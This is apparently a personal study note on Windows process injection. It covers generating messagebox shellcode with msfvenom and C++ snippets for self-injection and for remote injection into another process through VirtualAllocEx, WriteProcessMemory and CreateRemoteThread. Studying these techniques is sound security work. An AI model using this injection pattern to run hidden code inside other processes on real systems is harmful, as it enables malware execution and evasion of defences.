 - Processes - Identified by PID
	- Types
		- User Mode
		- Kernel Mode -> Higher Privileges
	- PIDs can be used to get *Handles* to processes
- Windows API
	- some APIs return pointers to `struct`
- Injection Attack -> Fileless shellcode execution
	- Find an existing process and inject malicious shell code
	- Steps
		- Allocation Memory
		  logseq.order-list-type:: number
		- Write Shell Code
		  logseq.order-list-type:: number
		- Execute Shell Code
		  logseq.order-list-type:: number
	- Metasploit Shell Code - `msfvenom -p windows/messagebox TEXT="ShellCode by MSFVenom" Title="Shell Code" -f c`
	- For process injection into `mspaint` - `x64` is required
		- `msfvenom -p windows/messagebox TEXT="ShellCode by MSFVenom" Title="Shell Code" -f c -a x64`
-
---
- **self-injection.cpp**
	- Step 1 -> Allocating memory
		-
		  ```
		  LPVOID allocated_mem = VirtualAlloc(NULL, // -> Base Address of block of memory for allocation [NULL-> OS will decide]
		                         sizeof(shellcode),
		                         (MEM_COMMIT | MEM_RESERVE), // -> Allocation Type [Reserve + Commit] [logic OR -> x3000]
		                         PAGE_EXECUTE_READWRITE); // -> Page Permissions
		  ```
		- `VirtualAlloc` will return a base pointer to the start of the memory page created
			- base pointer is of type `void pointer`
			- `void pointer` points to an `undefined` data type in memory
	- Step 2 -> Write Shell Code to Allocated Memory
		-
		  ```
		  RtlCopyMemory(allocated_mem, # destination
				shellcode, # source
		                sizeof(shellcode));
		  ```
	- Step 3 -> Execute Shell Code
		-
		  ```
		  HANDLE hThread =  CreateThread(NULL,0,
		                                 (LPTHREAD_START_ROUTINE)allocated_mem, # Start of the code that must be executed when thread is created 
		                                 NULL,
		                                 0,
		                                 NULL);
		  ```
			- Halt program till thread finishes execution (time set to `INFINITE`)
				- `WaitForSingleObject(hThread, INFINITE)`
----
- **process-injection.cpp**
	- Step 0 -> Get a Handle to an existing process
		-
		  ```
		  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, // access all process resources
		  				FALSE, // child processes are not inherited by handle
		                                pe32.th32ProcessID); // since PIDs change, take a snapshot and obtain PID of required software
		  ```
	- Step 1 -> Allocate Virtual Memory
		- Use `VirtualAllocEx` to allocate a memory page in the target process' memory space
			-
			  ```
			  LPVOID allocated_mem = VirtualAllocEx(hProcess, -> Handle to target process
			                                        NULL,
			                                        sizeof(shellcode),
			                                        (MEM_COMMIT | MEM_RESERVE),
			                                        PAGE_EXECUTE_READWRITE);
			  ```
	- Step 2 -> Write Shell Code to Allocated Memory
		-
		  ```
		      WriteProcessMemory(hProcess, -> Handle to target process
		                         allocated_mem,
		                         shellcode,
		                         sizeof(shellcode),
		                         NULL);
		  ```
	- Step 3 -> Execute Shell Code
		- Create a remote thread to execute a shellcode
			-
			  ```
			  	HANDLE hThread = CreateRemoteThread(hProcess,
								NULL, 
								0,
								(LPTHREAD_START_ROUTINE)allocated_mem,
								NULL, 
								0, 
								NULL);
			  ```
